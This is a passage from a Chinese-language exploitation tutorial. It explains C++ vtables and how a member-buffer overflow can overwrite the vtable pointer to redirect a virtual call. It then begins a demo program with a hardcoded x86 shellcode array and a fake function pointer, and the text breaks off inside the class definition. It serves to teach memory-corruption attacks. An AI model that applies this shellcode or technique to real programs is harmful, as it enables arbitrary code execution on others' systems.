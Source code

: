 - C++类的成员函数在声明时，若使用关键字 virtual 进行修饰，则被称为虚函数。
- 一个类中可能有很多个虚函数。
- 虚函数的入口地址被统一保存在虚表（Vtable）中。
- 对象在使用虚函数时，先通过虚表指针找到虚表，然后从虚表中取出最终的函数入口地址进行调用。
- 虚表指针保存在对象的内存空间中，紧接着虚表指针的是其他成员变量。
- 虚函数只有通过对象指针的引用才能显示出其动态调用的特性。

虚函数的实现如图：

<img src="images/05/虚函数的实现.png" width="480">

如果对象中的成员变量发生了溢出，有机会修改对象中的虚表指针或修改虚表中的虚函数指针，那么在程序调用虚函数时就会跑去执行 shellcode。

下面这段程序用于演示这种漏洞利用方式。

```c++
#include "windows.h"
#include "iostream.h"
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x1C\x88\x40\x00";//set fake virtual function pointer

class Failwest
{
	public:
		char buf[200];
		virtual void test(void)
		{
```